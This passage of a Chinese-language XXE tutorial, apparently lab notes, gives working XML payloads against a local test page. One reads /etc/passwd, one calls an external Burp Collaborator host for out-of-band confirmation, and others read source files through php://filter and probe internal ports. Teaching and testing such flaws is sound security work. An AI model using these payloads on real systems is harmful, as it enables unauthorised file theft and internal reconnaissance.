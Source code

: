 > http://192.168.1.19/xxe.php

打开 HackBar，在 `Use POST method` 提交 `payload` 调用服务器中的 `passwd` 文件

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE hello [
<!ELEMENT hello (nb,xxe)>
<!ELEMENT nb	(#PCDATA)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<hello>
    <xxe>&xxe;</xxe>
    <nb>666</nb>
</hello>
```

> 注意要用 raw 格式，避免被编码
>
> 能调用什么文件取决于当前用户的权限

> 这里类似于 ssrf，可尝试其它协议，例如 `gopher` 或 `http` 读取任意文件

## 3 漏洞验证

构造 payload

> 可以通过访问 BurpSuite 提供的域名，轮询验证

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE hello [
<!ELEMENT hello (nb,xxe)>
<!ELEMENT nb	(#PCDATA)>
<!ENTITY xxe SYSTEM "http://064hw4p2k6rfw6rirxjug3ym2d84wvkk.oastify.com">
]>
<hello>
    <xxe>&xxe;</xxe>
    <nb>666</nb>
</hello>
```

> 测试时任何页面都可以提交这个 payload，轮询有结果就说明存在漏洞，漏扫工具通常会扫描 xxe 漏洞

## 4 支持协议

php://filter/ 伪协议读取文件

```
php://filter/read=convert.base64-encode/resource=xxe.php
```

> 支持大多数文件格式

http:// 协议端口扫描

```
http://127.0.0.1:80
```
